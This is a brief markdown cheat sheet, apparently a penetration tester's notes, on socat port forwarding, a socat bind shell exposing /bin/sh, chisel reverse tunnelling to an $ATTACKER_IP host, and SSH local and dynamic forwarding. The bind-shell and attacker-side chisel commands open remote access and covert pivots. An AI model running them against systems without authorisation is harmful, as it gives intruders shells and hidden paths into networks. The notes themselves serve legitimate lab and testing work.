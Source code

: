 # socat
## port forwarding with socat
Forward port 80 to 445
```bash
socat TCP-LISTEN:80,fork TCP:127.0.0.1:445
```

## execute program
### bind shell
```bash
socat TCP4-LISTEN:8081,fork exec:/bin/sh
```

## listen fork print to stdout
```bash
socat TCP-LISTEN:1234,fork stdout
```

# tunneling through chisel
https://github.com/jpillora/chisel
Tunnel through 443 and open a socks proxy on attacker localhost.
## Attacker
```bash
./chisel server --port 443 --reverse
```
## Target
```
./chisel client $ATTACKER_IP:443 R:socks
```

# ssh port forwarding
send ssh control sequence on new line `~C`.
client machine's port (ex: 8081) comes first.
```
-L 8081:127.0.0.1:8080
```
or include port forward when running from command line
```bash
ssh -L 8081:127.0.0.1:8080 user@$IP
```

## dynamic ( socks )
-D 1080

